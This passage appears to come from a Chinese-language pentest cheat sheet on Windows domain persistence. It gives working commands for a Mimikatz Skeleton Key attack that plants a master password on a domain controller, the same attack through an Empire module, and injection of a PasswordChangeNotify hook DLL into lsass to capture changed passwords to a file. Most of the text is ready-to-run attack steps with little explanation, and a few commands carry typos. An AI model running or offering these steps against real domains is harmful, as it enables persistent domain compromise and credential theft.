 - 伪造LDAP 票据

```

```

#### Skeleton Key(万能密码)
- 使用域管账号密码连接

```
net use \\192.168.100.205\ipc$ "password" /user:pentest\administrator
```

- 添加万能密码

```
privilege::debug
misc::skeleton 注入万能密码
```

- 验证

```
删除原有ipc连接
net use
net usr \\dc\ipc$ /del /y

使用万能密码连接
net use \\dc\ipc$ "mimikatz" /user:administrator
```
- Empire 中的Skeleton key

```
interact 进入agent
usemoudle persistence/misc/skeleton key* 加载模块
execute 执行模块
```

#### Hook PasswordChangeNotify

- Hook PasswordChangeNotify

```
Hook PasswordChangeNotify作用是当用户修改密码后在系统中进行同步，密码符合要求的话，LSA会调用PasswordChangeNotify同步密码
```
- 使用

```
Import-Moudle .\Invoke-ReflectivePEInjection.ps1

注入HookPasswordChange.dll到内存
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass

当被修改密码查看
type c:\windows\Temp\passwords.txt
```

### Nishang下的脚本后门
